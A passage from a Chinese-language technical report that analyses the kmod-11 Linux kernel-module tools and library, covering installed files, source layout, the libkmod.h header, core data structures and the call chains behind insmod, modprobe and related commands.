Cflags: -I${includedir}
$ 
\end{verbatim}\end{shaded}}
这个文件只是一个纯文本文件,里面包含了如上所列出的信息。

{\begin{shaded}\begin{verbatim}
$ ls /usr/share/man/man5/ -l | grep "Apr 17"
-rw-r--r-- 1 root root  3969 Apr 17 04:55 depmod.d.5
-rw-r--r-- 1 root root  9306 Apr 17  2012 fonts-conf.5.gz
-rw-r--r-- 1 root root  1599 Apr 17  2012 initramfs.conf.5.gz
-rw-r--r-- 1 root root  8059 Apr 17 04:55 modprobe.d.5
-rw-r--r-- 1 root root  2494 Apr 17 04:55 modules.dep.5
-rw-r--r-- 1 root root    18 Apr 17 04:55 modules.dep.bin.5
-rw-r--r-- 1 root root   585 Apr 17  2012 update-initramfs.conf.5.gz
$ ls /usr/share/man/man8/ -l | grep "Apr 17"
-rw-r--r-- 1 root root  6398 Apr 17 04:55 depmod.8
-rw-r--r-- 1 root root  5170 Apr 17  2012 initramfs-tools.8.gz
-rw-r--r-- 1 root root  2151 Apr 17 04:55 insmod.8
-rw-r--r-- 1 root root   526 Apr 17  2012 lsinitramfs.8.gz
-rw-r--r-- 1 root root  1839 Apr 17 04:55 lsmod.8
-rw-r--r-- 1 root root  1570 Apr 17  2012 mkinitramfs.8.gz
-rw-r--r-- 1 root root  4009 Apr 17 04:55 modinfo.8
-rw-r--r-- 1 root root 10618 Apr 17 04:55 modprobe.8
-rw-r--r-- 1 root root  3058 Apr 17 04:55 rmmod.8
-rw-r--r-- 1 root root  1016 Apr 17  2012 update-initramfs.8.gz
\end{verbatim}\end{shaded}}
以上所有文件,均为 man 手册所准备的,通过 make install 将安装到系统路径
/usr/share/man/man8 下。

\subsection{文件功能简介}

\begin{itemize}
\item
  libkmod.so
  \begin{itemize}
  \item
    kmod 库的共享库文件,用于动态链接。
  \end{itemize}
\item
  libkmod.la
  \begin{itemize}
  \item
    用 libtool
    工具生成的库文件,其实就是一个文本文件,记录同名共享库的相关信息
  \item
    libtool 工具的作用,是在编译大型软件的过程中解决了库的依赖问题。
  \item
    特别是在交叉编译的条件下,解决动态链接器如何去寻找共享库的问题。
  \end{itemize}
\item
  kmod
  \begin{itemize}
  \item
    一个管理内核模块的工具,提供列表list,加载load,卸载unload等功能。
  \item
    目前的版本似乎只支持 help, list, static\_nodes 三条命令
  \item
    help 列出帮助信息
  \item
    list 列出当前加载模块
  \item
    static-nodes 输出当前内核加载的 static-node
    信息,包括设备节点文件名,类型,主设备号和次设备号。
  \end{itemize}
\item
  libkmod.h
  \begin{itemize}
  \item
    使用 libkmod 库所需要包含的头文件,详细接口定义见下节--项目代码分析。
  \end{itemize}
\item
  libkmod.pc
  \begin{itemize}
  \item
    文本文件,包含了使用 libkmod 库所需要了解的一些信息,例如
    安装目录,头文件所在目录,库名称,描述等。
  \end{itemize}
\item
  man5 \& man8
  \begin{itemize}
  \item
    提供通过类似 man 8 insmod 命令来查看帮助的源文件 inssmod.8
  \item
    提供通过类似 man 5 depmod.d 命令来查看帮助的源文件 depmod.d.5
  \end{itemize}
\end{itemize}
\section{代码实现概要分析}

\subsection{源码目录结构}

\begin{itemize}
\item
  tools
  \begin{itemize}
  \item
    insmod.c
  \item
    rmmod.c
  \item
    lsmod.c
  \item
    depmod.c
  \item
    modinfo.c
  \item
    modprobe.c
  \item
    kmod.c
  \item
    kmod.h
  \item
    log.c
  \item
    log.h
  \item
    static-nodes.c
  \end{itemize}
\item
  libkmod
  \begin{itemize}
  \item
    COPYING
  \item
    docs
  \item
    libkmod-array.c
  \item
    libkmod-array.h
  \item
    libkmod.c
  \item
    libkmod-config.c
  \item
    libkmod-elf.c
  \item
    libkmod-file.c
  \item
    libkmod.h
  \item
    libkmod-hash.c
  \item
    libkmod-hash.h
  \item
    libkmod-index.c
  \item
    libkmod-index.h
  \item
    libkmod-list.c
  \item
    libkmod-module.c
  \item
    libkmod.pc.in
  \item
    libkmod-private.h
  \item
    libkmod-signature.c
  \item
    libkmod.sym
  \item
    libkmod-util.c
  \item
    libkmod-util.h
  \item
    macro.h
  \item
    missing.h
  \item
    README
  \end{itemize}
\item
  testsuite
  \begin{itemize}
  \item
    COPYING
  \item
    delete\_module.c
  \item
    init\_module.c
  \item
    mkdir.c
  \item
    mkdir.h
  \item
    path.c
  \item
    README
  \item
    rootfs-pristine
  \item
    stripped-module.h
  \item
    test-alias.c
  \item
    test-blacklist.c
  \item
    test-dependencies.c
  \item
    test-depmod.c
  \item
    test-init.c
  \item
    test-loaded.c
  \item
    test-modinfo.c
  \item
    test-modprobe.c
  \item
    test-new-module.c
  \item
    testsuite.c
  \item
    testsuite.h
  \item
    test-testsuite.c
  \item
    uname.c
  \end{itemize}
\item
  m4
  \begin{itemize}
  \item
    attributes.m4
  \end{itemize}
\item
  man
  \begin{itemize}
  \item
    depmod.d.xml
  \item
    depmod.xml
  \item
    insmod.xml
  \item
    lsmod.xml
  \item
    Makefile.am
  \item
    modinfo.xml
  \item
    modprobe.d.xml
  \item
    modprobe.xml
  \item
    modules.dep.xml
  \item
    rmmod.xml
  \end{itemize}
\end{itemize}
\subsection{头文件 libkmod.h 分析}

头文件是 libkmod 项目所提供的用于包含的函数调用接口,上层编程者一般都需要
include 这个文件。 以 insmod
命令实现为例,以下函数接口将会用于这个命令实现过程中,典型的调用用法如下:

\begin{itemize}
\item
  insmod()
  \begin{itemize}
  \item
    kmod\_new()
  \item
    kmod\_module\_new\_from\_path()
  \item
    kmod\_module\_insert\_module()
  \item
    kmod\_module\_unref()
  \end{itemize}
\end{itemize}
其中 libkmod.h 头文件的全部内容如下

{\begin{shaded}\begin{verbatim}
$ cat /usr/include/libkmod.h 

/*
 * libkmod - interface to kernel module operations
 *
 * Copyright (C) 2011-2013  ProFUSION embedded systems
 *
 * This library is free software; you can redistribute it and/or
 * modify it under the terms of the GNU Lesser General Public
 * License as published by the Free Software Foundation; either
 * version 2.1 of the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU
 * Lesser General Public License for more details.
 *
 * You should have received a copy of the GNU Lesser General Public
 * License along with this library; if not, write to the Free Software
 * Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
 */

#pragma once
#ifndef _LIBKMOD_H_
#define _LIBKMOD_H_

#include <fcntl.h>
#include <stdarg.h>
#include <stdbool.h>
#include <inttypes.h>

#ifdef __cplusplus
extern "C" {
#endif

/*
 * kmod_ctx
 *
 * library user context - reads the config and system
 * environment, user variables, allows custom logging
 */
struct kmod_ctx;
struct kmod_ctx *kmod_new(const char *dirname, const char * const *config_paths);
struct kmod_ctx *kmod_ref(struct kmod_ctx *ctx);
struct kmod_ctx *kmod_unref(struct kmod_ctx *ctx);
void kmod_set_log_fn(struct kmod_ctx *ctx,
            void (*log_fn)(void *log_data,
                    int priority, const char *file, int line,
                    const char *fn, const char *format,
                    va_list args),
            const void *data);
int kmod_get_log_priority(const struct kmod_ctx *ctx);
void kmod_set_log_priority(struct kmod_ctx *ctx, int priority);
void *kmod_get_userdata(const struct kmod_ctx *ctx);
void kmod_set_userdata(struct kmod_ctx *ctx, const void *userdata);


/*
 * Management of libkmod's resources
 */
int kmod_load_resources(struct kmod_ctx *ctx);
void kmod_unload_resources(struct kmod_ctx *ctx);

enum kmod_resources {
    KMOD_RESOURCES_OK = 0,
    KMOD_RESOURCES_MUST_RELOAD = 1,
    KMOD_RESOURCES_MUST_RECREATE = 2,
};
int kmod_validate_resources(struct kmod_ctx *ctx);

enum kmod_index {
    KMOD_INDEX_MODULES_DEP = 0,
    KMOD_INDEX_MODULES_ALIAS,
    KMOD_INDEX_MODULES_SYMBOL,
    KMOD_INDEX_MODULES_BUILTIN,
    /* Padding to make sure enum is not mapped to char */
    _KMOD_INDEX_PAD = (1 << 31),
};
int kmod_dump_index(struct kmod_ctx *ctx, enum kmod_index type, int fd);

/*
 * kmod_list
 *
 * access to kmod generated lists
 */
struct kmod_list;
struct kmod_list *kmod_list_next(const struct kmod_list *list,
                        const struct kmod_list *curr);
struct kmod_list *kmod_list_prev(const struct kmod_list *list,
                        const struct kmod_list *curr);
struct kmod_list *kmod_list_last(const struct kmod_list *list);

#define kmod_list_foreach(list_entry, first_entry) \
    for (list_entry = first_entry; \
        list_entry != NULL; \
        list_entry = kmod_list_next(first_entry, list_entry))

#define kmod_list_foreach_reverse(list_entry, first_entry) \
    for (list_entry = kmod_list_last(first_entry); \
        list_entry != NULL; \
        list_entry = kmod_list_prev(first_entry, list_entry))

/*
 * kmod_config_iter
 *
 * access to configuration lists - it allows to get each configuration's
 * key/value stored by kmod
 */
struct kmod_config_iter;
struct kmod_config_iter *kmod_config_get_blacklists(const struct kmod_ctx *ctx);
struct kmod_config_iter *kmod_config_get_install_commands(const struct kmod_ctx *ctx);
struct kmod_config_iter *kmod_config_get_remove_commands(const struct kmod_ctx *ctx);
struct kmod_config_iter *kmod_config_get_aliases(const struct kmod_ctx *ctx);
struct kmod_config_iter *kmod_config_get_options(const struct kmod_ctx *ctx);
struct kmod_config_iter *kmod_config_get_softdeps(const struct kmod_ctx *ctx);
const char *kmod_config_iter_get_key(const struct kmod_config_iter *iter);
const char *kmod_config_iter_get_value(const struct kmod_config_iter *iter);
bool kmod_config_iter_next(struct kmod_config_iter *iter);
void kmod_config_iter_free_iter(struct kmod_config_iter *iter);

/*
 * kmod_module
 *
 * Operate on kernel modules
 */
struct kmod_module;
int kmod_module_new_from_name(struct kmod_ctx *ctx, const char *name,
                        struct kmod_module **mod);
int kmod_module_new_from_path(struct kmod_ctx *ctx, const char *path,
                        struct kmod_module **mod);
int kmod_module_new_from_lookup(struct kmod_ctx *ctx, const char *given_alias,
                        struct kmod_list **list);
int kmod_module_new_from_loaded(struct kmod_ctx *ctx,
                        struct kmod_list **list);

struct kmod_module *kmod_module_ref(struct kmod_module *mod);
struct kmod_module *kmod_module_unref(struct kmod_module *mod);
int kmod_module_unref_list(struct kmod_list *list);
struct kmod_module *kmod_module_get_module(const struct kmod_list *entry);


/* Removal flags */
enum kmod_remove {
    KMOD_REMOVE_FORCE = O_TRUNC,
    KMOD_REMOVE_NOWAIT = O_NONBLOCK,
};

/* Insertion flags */
enum kmod_insert {
    KMOD_INSERT_FORCE_VERMAGIC = 0x1,
    KMOD_INSERT_FORCE_MODVERSION = 0x2,
};

/* Flags to kmod_module_probe_insert_module() */
enum kmod_probe {
    KMOD_PROBE_FORCE_VERMAGIC =     0x00001,
    KMOD_PROBE_FORCE_MODVERSION =       0x00002,
    KMOD_PROBE_IGNORE_COMMAND =     0x00004,
    KMOD_PROBE_IGNORE_LOADED =      0x00008,
    KMOD_PROBE_DRY_RUN =            0x00010,
    KMOD_PROBE_FAIL_ON_LOADED =     0x00020,

    /* codes below can be used in return value, too */
    KMOD_PROBE_APPLY_BLACKLIST_ALL =    0x10000,
    KMOD_PROBE_APPLY_BLACKLIST =        0x20000,
    KMOD_PROBE_APPLY_BLACKLIST_ALIAS_ONLY = 0x40000,
};

/* Flags to kmod_module_apply_filter() */
enum kmod_filter {
    KMOD_FILTER_BLACKLIST = 0x00001,
    KMOD_FILTER_BUILTIN = 0x00002,
};

int kmod_module_remove_module(struct kmod_module *mod, unsigned int flags);
int kmod_module_insert_module(struct kmod_module *mod, unsigned int flags,
                            const char *options);
int kmod_module_probe_insert_module(struct kmod_module *mod,
            unsigned int flags, const char *extra_options,
            int (*run_install)(struct kmod_module *m,
                        const char *cmdline, void *data),
            const void *data,
            void (*print_action)(struct kmod_module *m, bool install,
                        const char *options));


const char *kmod_module_get_name(const struct kmod_module *mod);
const char *kmod_module_get_path(const struct kmod_module *mod);
const char *kmod_module_get_options(const struct kmod_module *mod);
const char *kmod_module_get_install_commands(const struct kmod_module *mod);
const char *kmod_module_get_remove_commands(const struct kmod_module *mod);
struct kmod_list *kmod_module_get_dependencies(const struct kmod_module *mod);
int kmod_module_get_softdeps(const struct kmod_module *mod,
                struct kmod_list **pre, struct kmod_list **post);
int kmod_module_get_filtered_blacklist(const struct kmod_ctx *ctx,
                    const struct kmod_list *input,
                    struct kmod_list **output) __attribute__ ((deprecated));
int kmod_module_apply_filter(const struct kmod_ctx *ctx,
                    enum kmod_filter filter_type,
                    const struct kmod_list *input,
                    struct kmod_list **output);



/*
 * Information regarding "live information" from module's state, as returned
 * by kernel
 */

enum kmod_module_initstate {
    KMOD_MODULE_BUILTIN = 0,
    KMOD_MODULE_LIVE,
    KMOD_MODULE_COMING,
    KMOD_MODULE_GOING,
    /* Padding to make sure enum is not mapped to char */
    _KMOD_MODULE_PAD = (1 << 31),
};
const char *kmod_module_initstate_str(enum kmod_module_initstate state);
int kmod_module_get_initstate(const struct kmod_module *mod);
int kmod_module_get_refcnt(const struct kmod_module *mod);
struct kmod_list *kmod_module_get_holders(const struct kmod_module *mod);
struct kmod_list *kmod_module_get_sections(const struct kmod_module *mod);
const char *kmod_module_section_get_name(const struct kmod_list *entry);
unsigned long kmod_module_section_get_address(const struct kmod_list *entry);
void kmod_module_section_free_list(struct kmod_list *list);
long kmod_module_get_size(const struct kmod_module *mod);



/*
 * Information retrieved from ELF headers and sections
 */

int kmod_module_get_info(const struct kmod_module *mod, struct kmod_list **list);
const char *kmod_module_info_get_key(const struct kmod_list *entry);
const char *kmod_module_info_get_value(const struct kmod_list *entry);
void kmod_module_info_free_list(struct kmod_list *list);

int kmod_module_get_versions(const struct kmod_module *mod, struct kmod_list **list);
const char *kmod_module_version_get_symbol(const struct kmod_list *entry);
uint64_t kmod_module_version_get_crc(const struct kmod_list *entry);
void kmod_module_versions_free_list(struct kmod_list *list);

int kmod_module_get_symbols(const struct kmod_module *mod, struct kmod_list **list);
const char *kmod_module_symbol_get_symbol(const struct kmod_list *entry);
uint64_t kmod_module_symbol_get_crc(const struct kmod_list *entry);
void kmod_module_symbols_free_list(struct kmod_list *list);

enum kmod_symbol_bind {
    KMOD_SYMBOL_NONE = '\0',
    KMOD_SYMBOL_LOCAL = 'L',
    KMOD_SYMBOL_GLOBAL = 'G',
    KMOD_SYMBOL_WEAK = 'W',
    KMOD_SYMBOL_UNDEF = 'U'
};

int kmod_module_get_dependency_symbols(const struct kmod_module *mod, struct kmod_list **list);
const char *kmod_module_dependency_symbol_get_symbol(const struct kmod_list *entry);
int kmod_module_dependency_symbol_get_bind(const struct kmod_list *entry);
uint64_t kmod_module_dependency_symbol_get_crc(const struct kmod_list *entry);
void kmod_module_dependency_symbols_free_list(struct kmod_list *list);

#ifdef __cplusplus
} /* extern "C" */
#endif
#endif
$ 
\end{verbatim}\end{shaded}}
\subsection{数据结构设计}

\begin{itemize}
\item
  struct kmod\_ctx
  \begin{itemize}
  \item
    该结构体出现在 libkmod/libkmod.c 文件中
  \item
    用于读取配置和系统环境参数,用户参数等
  \end{itemize}
\end{itemize}
\textbf{struct kmod\_ctx 结构体定义}

{\begin{shaded}\begin{verbatim}
/**
 * kmod_ctx:
 *
 * Opaque object representing the library context.
 */
struct kmod_ctx {
    int refcount;
    int log_priority;
    void (*log_fn)(void *data,
                    int priority, const char *file, int line,
                    const char *fn, const char *format, va_list args);
    void *log_data;
    const void *userdata;
    char *dirname;
    struct kmod_config *config;
    struct hash *modules_by_name;
    struct index_mm *indexes[_KMOD_INDEX_MODULES_SIZE];
    unsigned long long indexes_stamp[_KMOD_INDEX_MODULES_SIZE];
};
\end{verbatim}\end{shaded}}
\begin{itemize}
\item
  struct kmod\_list
  \begin{itemize}
  \item
    该结构体出现在 libkmod/libkmod-private.h 文件中
  \item
    用于访问 kmod 产生的模块节点链表
  \end{itemize}
\end{itemize}
\textbf{struct kmod\_list 结构体定义}

{\begin{shaded}\begin{verbatim}
struct list_node {
    struct list_node *next, *prev;
};

struct kmod_list {
    struct list_node node;
    void *data;
};
\end{verbatim}\end{shaded}}
\begin{itemize}
\item
  struct kmod\_config\_iter
  \begin{itemize}
  \item
    该结构体出现在 libkmod/libkmod-config.c 文件中
  \end{itemize}
\end{itemize}
\textbf{struct kmod\_config\_iter结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_config_iter {
    enum config_type type;
    bool intermediate;
    const struct kmod_list *list;
    const struct kmod_list *curr;
    void *data;
    const char *(*get_key)(const struct kmod_list *l); 
    const char *(*get_value)(const struct kmod_list *l); 
};
\end{verbatim}\end{shaded}}
\begin{itemize}
\item
  struct kmod\_module
  \begin{itemize}
  \item
    该结构体出现在 libkmod/libkmod-module.c 文件中
  \end{itemize}
\end{itemize}
\textbf{struct kmod\_module结构体定义}

{\begin{shaded}\begin{verbatim}
/**
 * SECTION:libkmod-module
 * @short_description: operate on kernel modules
 */

/**
 * kmod_module:
 *
 * Opaque object representing a module.
 */
struct kmod_module {
    struct kmod_ctx *ctx;
    char *hashkey;
    char *name;
    char *path;
    struct kmod_list *dep;
    char *options;
    const char *install_commands;   /* owned by kmod_config */
    const char *remove_commands;    /* owned by kmod_config */
    char *alias; /* only set if this module was created from an alias */
    struct kmod_file *file;
    int n_dep;
    int refcount;
    struct {
        bool dep : 1;
        bool options : 1;
        bool install_commands : 1;
        bool remove_commands : 1;
    } init;

    /*
     * private field used by kmod_module_get_probe_list() to detect
     * dependency loops
     */
    bool visited : 1;

    /*
     * set by kmod_module_get_probe_list: indicates for probe_insert()
     * whether the module's command and softdep should be ignored
     */
    bool ignorecmd : 1;

    /*
     * if module was created by searching the modules.builtin file, this
     * is set. There's nothing much useful one can do with such a
     * "module", except knowing it's builtin.
     */
    bool builtin : 1;
};
\end{verbatim}\end{shaded}}
\subsection{重要接口实现}

\begin{itemize}
\item
  kmod\_module\_insert\_module() in libkmod/libkmod-module.c
  \begin{itemize}
  \item
    kmod\_module\_get\_path()
  \item
    file = kmod\_file\_open()
  \item
    kmod\_file\_get\_direct()
  \item
    size = kmod\_file\_get\_size(file)
  \item
    mem = kmod\_file\_get\_contents(file)
  \item
    kmod\_elf\_new()
  \item
    kmod\_elf\_strip\_section()
  \item
    kmod\_elf\_get\_memory()
  \item
    init\_module(mem, size, args)
  \item
    kmod\_elf\_unref()
  \item
    kmod\_file\_unref()
  \end{itemize}
\item
  对比 module-init-tools 的实现,可以发现代码的层次逻辑复杂不少
  \begin{itemize}
  \item
    realloc()
  \item
    grab\_file()
    \begin{itemize}
    \item
      open()
    \item
      malloc()
    \item
      read()
    \item
      close()
    \end{itemize}
  \item
    init\_module(file, len, options)
  \item
    free()
  \end{itemize}
\item
  kmod\_module\_remove\_module in libkmod/libkmod-module.c
  \begin{itemize}
  \item
    delete\_module()
  \end{itemize}
\end{itemize}
\chapter{Kmod-11 项目详细分析报告}

\section{模块设计分析}

整个 kmod
项目的核心设计思想,是采用面向对象的编程模型,以C语言的结构体为数据结构的核心,将结构体作为对象来看待,围绕结构体来组织相应的函数接口。
这些函数接口,大多具有较强的可读性,从它们的命名中,就能看出是属于哪个对象的什么方法。因为
C 语言中没有对象的概念,我们取而代之以模块来进行论述和分析。

\subsection{kmod\_ctx 库上下文}

该模块的主要功能,是为 kmod module
提供一个执行环境,也就是通常所说的上下文 context
的概念。数据结构的设计,用了 ctx 来表示这个上下文的英文缩写。

该模块主要的实现代码都在 libkmod/libkmod.c,比较常用的数据结构和接口有

\subsubsection{struct kmod\_ctx 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_ctx {
    int refcount;
    int log_priority;
    void (*log_fn)(void *data,
                    int priority, const char *file, int line,
                    const char *fn, const char *format, va_list args);
    void *log_data;
    const void *userdata;
    char *dirname;
    struct kmod_config *config;
    struct hash *modules_by_name;
    struct index_mm *indexes[_KMOD_INDEX_MODULES_SIZE];
    unsigned long long indexes_stamp[_KMOD_INDEX_MODULES_SIZE];
};
\end{verbatim}\end{shaded}}
以下函数接口在 tools 下的6个命令中都有用到,是必须的基础类的调用。

{\begin{shaded}\begin{verbatim}
struct kmod_ctx *kmod_new(const char *dirname, const char * const *config_paths);
struct kmod_ctx *kmod_ref(struct kmod_ctx *ctx);
struct kmod_ctx *kmod_unref(struct kmod_ctx *ctx);
void kmod_set_log_fn(struct kmod_ctx *ctx,
                    void (*log_fn)(void *log_data,
                                    int priority, const char *file, int line,
                                    const char *fn, const char *format,
                                    va_list args),
                    const void *data);
\end{verbatim}\end{shaded}}
以下函数接口在 modprobe 命令中有用到。

{\begin{shaded}\begin{verbatim}
int kmod_load_resources(struct kmod_ctx *ctx);
void kmod_unload_resources(struct kmod_ctx *ctx);
\end{verbatim}\end{shaded}}
可以看出这些接口的传入参数和传出的返回值,都是与 struct kmod\_ctx
相关的。而在这个数据结构中,有几个重要的成员变量,例如 refcount, dirname,
hash表引用等,这些都是和具体什么模块无关的抽象数据,代表着任何一个模块在运行时,都必须具备的属性。因此在后面的
struct kmod\_module 核心数据结构中,将 struct kmod\_ctx *ctx
作为首要包含的第一个成员变量,这也是和 ctx 的重要性分不开的。

\subsection{kmod\_module 内核模块核心操作}

kmod\_module
是所有模块中最重要和最核心的模块。该模块的主要功能是抽象了一个对所有内核模块进行操作的对象,它是真正可以代表一个具体的已经被加载到内核,或者即将被加载到内核的模块对象。其中,除了包含刚才所说的
kmod\_ctx
上下文的模块,作为该模块运行时环境的一个引用之外,还包含有其他两个重要的数据结构
struct kmod\_list *dep 和 struct kmod\_file *file,其中 dep
代表着已经被加载到内核中的这个模块所需要的依赖关系,也就是为了要加载这个模块,需要用到的需要提前加载的其他模块列表,这样的模块可能有很多,所以采用了一个链表的方式来记录。file
代表着当前这个被加载模块,在磁盘上所对应的文件。这个结构体在下面还会详细解释,其中最重要的信息包括文件的大小,文件的内容在内存中的指针,以及该文件对应的
ELF 格式的文件内容。

该模块主要的实现代码都在
libkmod/libkmod-module.c,比较常用的数据结构和接口有

\subsubsection{struct kmod\_module 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_module {
        struct kmod_ctx *ctx;
        char *hashkey;
        char *name;
        char *path;
        struct kmod_list *dep;
        char *options;
        const char *install_commands;   /* owned by kmod_config */
        const char *remove_commands;    /* owned by kmod_config */
        char *alias; /* only set if this module was created from an alias */
        struct kmod_file *file;
        int n_dep;
        int refcount;
        struct {
            bool dep : 1;
            bool options : 1;
            bool install_commands : 1;
            bool remove_commands : 1;
        } init;

        bool visited : 1;
        bool ignorecmd : 1;
        bool builtin : 1;
    };
\end{verbatim}\end{shaded}}
以下函数接口在 tools 下的6个命令中都有用到,是必须的基础类的调用。其中
初始化的方法有4个,前两个 new\_from\_name 和 new\_from\_path
是以所提供的模块文件名来创建单个模块。path
代表着从根目录开始的绝对路径方式,name
代表着从当前目录的相对路径方式。另外两个 new\_from\_lookup 和
new\_from\_loaded,分别是以所提供的别名来创建链表,或者直接从已经加载的依赖关系数组中动态创建链表。

{\begin{shaded}\begin{verbatim}
int kmod_module_new_from_name(struct kmod_ctx *ctx, const char *name,
                                            struct kmod_module **mod);
int kmod_module_new_from_path(struct kmod_ctx *ctx, const char *path,
                                            struct kmod_module **mod);
int kmod_module_new_from_lookup(struct kmod_ctx *ctx, const char *given_alias,
                                            struct kmod_list **list);
int kmod_module_new_from_loaded(struct kmod_ctx *ctx,
                                            struct kmod_list **list);

struct kmod_module *kmod_module_ref(struct kmod_module *mod);
struct kmod_module *kmod_module_unref(struct kmod_module *mod);
int kmod_module_unref_list(struct kmod_list *list);
struct kmod_module *kmod_module_get_module(const struct kmod_list *entry);
\end{verbatim}\end{shaded}}
以下函数接口主要用 insmod/rmmod 命令的实现。这2个接口是实现 insmod 和
rmmod 这两个命令时所用到的最主要的 libkmod 库接口。

{\begin{shaded}\begin{verbatim}
int kmod_module_remove_module(struct kmod_module *mod, unsigned int flags);
int kmod_module_insert_module(struct kmod_module *mod, unsigned int flags,
\end{verbatim}\end{shaded}}
以下函数接口 kmod\_module\_probe\_insert\_module 主要用于 modprobe
命令的实现。这个接口和上面的 kmod\_module\_insert\_module
所不同的是,它可以支持分析依赖关系,把当前要加载模块的依赖模块,也同时加载进来,省得用户自己去一个一个加载。

{\begin{shaded}\begin{verbatim}
int kmod_module_probe_insert_module(struct kmod_module *mod,
                    unsigned int flags, const char *extra_options,
                    int (*run_install)(struct kmod_module *m,
                                            const char *cmdline, void *data),
                    const void *data,
                    void (*print_action)(struct kmod_module *m, bool install,
                                            const char *options));
\end{verbatim}\end{shaded}}
以下函数接口主要用 lsmod 命令的实现。

{\begin{shaded}\begin{verbatim}
const char *kmod_module_get_name(const struct kmod_module *mod);
const char *kmod_module_get_path(const struct kmod_module *mod);
const char *kmod_module_get_options(const struct kmod_module *mod);
const char *kmod_module_get_install_commands(const struct kmod_module *mod);
const char *kmod_module_get_remove_commands(const struct kmod_module *mod);
struct kmod_list *kmod_module_get_dependencies(const struct kmod_module *mod);
int kmod_module_get_softdeps(const struct kmod_module *mod,
                            struct kmod_list **pre, struct kmod_list **post);
\end{verbatim}\end{shaded}}
以下函数接口主要用 modinfo 命令的实现。其中 kmod\_module\_info\_get\_key
和 kmod\_module\_info\_get\_value 是最重要的两个接口,modinfo
命令所显示的信息冒号左侧的是 key,冒号右侧的是
value,因此,可以说这2个接口是专为 modinfo 命令而准备的。

{\begin{shaded}\begin{verbatim}
int kmod_module_get_info(const struct kmod_module *mod, struct kmod_list **list);
const char *kmod_module_info_get_key(const struct kmod_list *entry);
const char *kmod_module_info_get_value(const struct kmod_list *entry);
void kmod_module_info_free_list(struct kmod_list *list);
\end{verbatim}\end{shaded}}
\subsection{kmod\_file 内核模块文件操作}

该模块是隶属于 kmod\_module 模块的一个成员变量,用来支持 kmod\_module
模块的实现。每一个需要加载的模块,都对应于磁盘上的一个文件,要插入一个模块,首先需要从磁盘上把这个文件读出来读到内存中,并且获得文件的大小和指向文件内容的内存指针,用这些数据再构建出一个
ELF 文件的 section 信息,并获得其中有关用模块的 modinfo 内容。

该模块主要的实现代码都在
libkmod/libkmod-file.c,比较常用的数据结构和接口有

\subsubsection{struct kmod\_file 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_file {
#ifdef ENABLE_XZ
    bool xz_used;
#endif
#ifdef ENABLE_ZLIB
    gzFile gzf;
#endif
    int fd; 
    off_t size;
    void *memory;
    const struct file_ops *ops;
    const struct kmod_ctx *ctx;
    struct kmod_elf *elf;
};
\end{verbatim}\end{shaded}}
以下函数接口是这个模块中最重要的接口。

{\begin{shaded}\begin{verbatim}
struct kmod_file *kmod_file_open(const struct kmod_ctx *ctx, const char *filename)  
off_t kmod_file_get_size(const struct kmod_file *file)
void *kmod_file_get_contents(const struct kmod_file *file)
void kmod_file_unref(struct kmod_file *file)
\end{verbatim}\end{shaded}}
\subsection{kmod\_elf 内核模块elf文件操作}

该模块是隶属于 kmod\_file 模块的一个成员变量,用来支持 kmod\_file
模块的实现。从层次结构上来说,它是高于 kmod\_file
的,因为这个模块的创建,需要依赖于 kmod\_file 模块提供的 get\_contents 和
get\_size 接口所获得的返回值。但是从数据结构的隶属关系上,它是属于
kmod\_file 内部的一个成员。

该模块主要的实现代码都在 libkmod/libkmod-elf.c
,这个模块所围绕的数据结构是 kmod\_elf,其中所包含的最重要的成员是 memory
和 size, 在 kmod\_module\_insert\_module
函数接口中,需要用到这2个数据来创建一个 kmod\_elf 变量,因此
kmod\_elf\_new 函数的2个参数也就是用的这2个变量。

\subsubsection{struct kmod\_elf 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_elf {
    const uint8_t *memory;
    uint8_t *changed;
    uint64_t size;
    enum kmod_elf_class class;
    struct kmod_elf_header {
            struct {
                    uint64_t offset;
                    uint16_t count;
                    uint16_t entry_size;
            } section;
            struct {
                    uint16_t section; /* index of the strings section */
                    uint64_t size;
                    uint64_t offset;
                    uint32_t nameoff; /* offset in strings itself */
            } strings;   
            uint16_t machine;
    } header;    
};
\end{verbatim}\end{shaded}}
以下函数接口是这个模块中最重要的接口。kmod\_elf\_get\_memory
函数是一个典型的面向对象的封装,它实际上就是简单的返回成员变量 memory
的值,但设计者并没有采用直接用指针 elf-\textgreater{}memory
的方式来获取成员变量,而是通过接口来访问数据。这个 memory 指针是整个
kmod\_elf 数据结构中,最重要的一个成员,它代表着 elf
文件从磁盘被加载到内存之后的内存指针,这个信息在 init\_module
系统调用的时候,将被传给内核,由内核完成真正把模块插入到内核空间的工作。

{\begin{shaded}\begin{verbatim}
struct kmod_elf *kmod_elf_new (const void *memory, off_t size)
int kmod_elf_strip_section(struct kmod_elf *elf, const char *section)
const void *kmod_elf_get_memory(const struct kmod_elf *elf)
void kmod_elf_unref(struct kmod_elf *elf)
\end{verbatim}\end{shaded}}
\subsection{kmod\_list 内核模块列表}

该模块是隶属于 kmod\_module 模块的一个成员变量,用来支持 kmod\_module
模块的实现。每一个被加载的模块,有的是不依赖于任何其他模块就可以被加载,但也有很多是需要依赖于其他模块被加载后,才能被加载。kmod\_list
为这些模块提供了一个索引,通过这个 list
可以获得所有和当前被加载模块有依赖关系的模块列表,然后在这个列表中,这些需要提前被加载的模块也按照依赖关系排好顺序,加载的时候只需要遍历链表,依次加载每个模块,最后再加载当前模块就可以了。这个功能的实现可以参考
modprobe 命令实现流程分析。这个模块在 kmod\_module,kmod\_config
中都有用到。

该模块主要的实现代码都在 libkmod/libkmod-list.c,其中结构体的定义在
kmod-11/libkmod/libkmod-private.h 中。

\subsubsection{struct kmod\_list 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_list {
    struct list_node node;
    void *data;
};

struct kmod_list *kmod_list_append(struct kmod_list *list, const void *data) _must_check_ __attribute__((nonnull(2)));
struct kmod_list *kmod_list_prepend(struct kmod_list *list, const void *data) _must_check_ __attribute__((nonnull(2)));
struct kmod_list *kmod_list_remove(struct kmod_list *list) _must_check_;
